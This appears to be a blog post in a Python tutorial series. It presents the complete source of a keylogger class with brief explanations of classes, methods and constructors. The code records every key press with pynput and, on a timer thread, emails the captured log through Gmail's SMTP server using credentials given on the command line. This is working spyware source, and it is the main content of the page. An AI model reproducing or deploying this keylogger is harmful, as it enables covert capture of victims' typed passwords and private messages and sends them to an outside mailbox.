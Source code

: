 ```yaml
---
title: keylogger class
permalink: /permalinks/keylogger/keylogger
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
---
```


## This script includes all methods and classes used by the keylogger.

-  Each function within a class is termed a method.

-  When instantiating an object instance as a class, automatically the methods are invoked and hence the first attribute of each method is named "self".

-  Call objects defined within a class using : "self.obj".

-  A Constructor is automatically executed when a class is created.

-  An Attribute is a variable that can be used within the whole class and by its respective methods. (This is a secure alternative to using global definitions.)



### Code: 

```python
#!/usr/bin/env python

import pynput.keyboard
import threading
import smtplib
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-t", "--time-interval", dest="interval", help="Time Interval to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    if not options.interval:
        # code to handle error
        parser.error("\n[-] Please specify a valid Time Interval,  use --help for info.")
    if not options.password:
        # code to handle error
        parser.error("\n[-] Please specify a valid Password,  use --help for info.")
    return options

class Keylogger:
    # Constructor definition
    def __init__(self, time_interval, email, password):
        # Attribute definition
        self.log = "[!] Keylogger Started"
        self.interval = time_interval
        self.email = email
        self.password = password

    def append_to_log(self, string):
        self.log = self.log + string

    def process_key_press(self, key):
        try:
            current_key = str(key.char)
        except AttributeError:
            # Replace key.space as space
            if key == key.space:
                current_key = " "
            else:
                # Space special chars out
                current_key = " " + str(key) + " "
        self.append_to_log(current_key)


    # Recursive function
    def report(self):
        self.send_mail(self.email, self.password, "\n\n" + self.log)
        # Reset
        self.log = ""
        # Running timer on an alternate thread
        # Wait for 5 secs and report
        timer = threading.Timer(self.interval, self.report)
        timer.start()

    # Create SMTP server instance to send email
    def send_mail(self, email, password, message):
        server = smtplib.SMTP("smtp.gmail.com", 587)
        server.starttls()
        server.login(email, password)
        server.sendmail(email, email, message)
        server.quit()

    # Start keylogger
    def start(self):
        # Create instance
        keyboard_listener = pynput.keyboard.Listener(on_press=self.process_key_press)
        # Start listener
        with keyboard_listener:
            self.report()
            keyboard_listener.join()

banner = """
    
|      ___           __   __   __   ___  __  
|__/ |__  \ / |    /  \ / _` / _` |__  |__) 
|  \ |___  |  |___ \__/ \__> \__> |___ |  \ 
                                            
[!] Keylogger Started >.<
  """
```